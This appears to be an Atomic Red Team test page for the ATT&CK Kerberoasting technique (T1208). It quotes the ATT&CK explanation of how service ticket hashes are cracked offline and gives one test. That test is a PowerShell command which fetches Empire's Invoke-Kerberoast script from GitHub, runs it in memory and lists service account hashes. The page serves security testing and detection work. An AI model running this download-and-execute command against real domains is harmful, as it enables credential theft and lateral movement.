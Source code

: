 # T1208 - Kerberoasting
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1208)
<blockquote>Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service (Citation: Microsoft Detecting Kerberoasting Feb 2018)). (Citation: Microsoft SPN) (Citation: Microsoft SetSPN) (Citation: SANS Attacking Kerberos Nov 2014) (Citation: Harmj0y Kerberoast Nov 2016)

Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting service (TGS) service tickets for any SPN from a domain controller (DC). (Citation: Empire InvokeKerberoast Oct 2016) (Citation: AdSecurity Cracking Kerberos Dec 2015) Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline [Brute Force](https://attack.mitre.org/techniques/T1110) attacks that may expose plaintext credentials. (Citation: AdSecurity Cracking Kerberos Dec 2015) (Citation: Empire InvokeKerberoast Oct 2016) (Citation: Harmj0y Kerberoast Nov 2016)

This same attack could be executed using service tickets captured from network traffic. (Citation: AdSecurity Cracking Kerberos Dec 2015)

Cracked hashes may enable Persistence, Privilege Escalation, and  Lateral Movement via access to [Valid Accounts](https://attack.mitre.org/techniques/T1078). (Citation: SANS Attacking Kerberos Nov 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Request for service tickets](#atomic-test-1---request-for-service-tickets)


<br/>

## Atomic Test #1 - Request for service tickets
This test uses the Powershell Empire Module: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1

The following are further sources and credits for this attack:
[Kerberoasting Without Mimikatz source] (https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
[Invoke-Kerberoast source] (https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
when executed successfully , the test displays available services with their hashes. 
If the testing domain doesn't have any service principal name configured, there is no output 

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
iex(iwr https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
Invoke-Kerberoast | fl
```






<br/>
